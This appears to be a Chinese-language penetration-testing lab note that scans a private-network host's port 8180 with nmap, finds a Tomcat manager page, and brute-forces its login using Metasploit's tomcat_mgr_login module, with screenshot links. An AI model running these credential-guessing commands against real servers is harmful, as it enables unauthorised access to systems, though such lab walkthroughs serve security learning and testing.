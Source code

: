 ```
nmap -sV -p 8180 192.168.0.62
```

![image-20221010155232445](../../images//image-20221010155232445.png)

而通过浏览器打开后，可以看到Tomcat的管理页面。

![image-20221010155410715](../../images//image-20221010155410715.png)



使用msf进行口令破解

```
use auxiliary/scanner/http/tomcat_mgr_login
set rhosts 192.168.0.62
set rport 8180
set targeturi /manager/html
set threads 10
exploit
```

![image-20221010155733873](../../images//image-20221010155733873.png)
